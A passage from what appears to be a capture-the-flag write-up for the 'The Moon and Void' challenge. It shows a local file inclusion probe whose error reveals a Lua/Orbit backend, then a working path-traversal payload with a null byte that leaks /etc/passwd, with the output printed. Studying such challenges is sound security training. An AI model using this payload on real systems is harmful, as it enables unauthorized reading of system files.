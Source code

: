 Notice how the link text says `ukcqyjrnhedpqfsnexdj.txt`, as if it's a file on the file system. This might mean that the server is vulnerable to LFI. Let's try to read some file:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl "https://moon-and-void.intent.ctf.today/download?html=/etc/passwd"
<html>
                                      <head><title>Server Error</title></head>
                                         <body><pre>/app/app.lua:38: attempt to index local 'f' (a nil value)
stack traceback:
        /app/app.lua:38: in function </app/app.lua:34>
        (tail call): ?
stack traceback:
        /usr/local/share/lua/5.1/orbit.lua:550: in function 'err'
        /usr/local/share/lua/5.1/coxpcall.lua:47: in function </usr/local/share/lua/5.1/coxpcall.lua:45>
        (tail call): ?
        (tail call): ?
        /usr/local/share/lua/5.1/orbit.lua:548: in function </usr/local/share/lua/5.1/orbit.lua:529>
        (tail call): ?
        (tail call): ?</pre></body></html>
```

The read failed, but we can learn from the error message that the backend in using `lua` with the `orbit` framework. This will soon help us.

Anyway, after several more attempts, we were able to successfully leak the file with the following request:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl "https://moon-and-void.intent.ctf.today/download?html=....//....//....//....//etc//passwd%00"
<html ><head ><title>The Moon and Void</title></head><body >root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
</body></html>
```
